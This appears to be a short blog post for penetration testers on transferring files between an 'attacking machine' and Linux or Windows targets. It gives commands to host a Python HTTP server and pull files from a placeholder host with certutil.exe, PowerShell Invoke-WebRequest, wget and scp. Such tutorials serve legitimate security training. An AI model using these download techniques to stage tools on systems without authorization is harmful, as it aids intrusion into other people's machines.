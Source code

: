 ```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


File transfer between Linux and Windows

# File Transfer

Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine.

## Using Python

```bash
python3 -m  http.server  PORT_NUMBER
```

  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```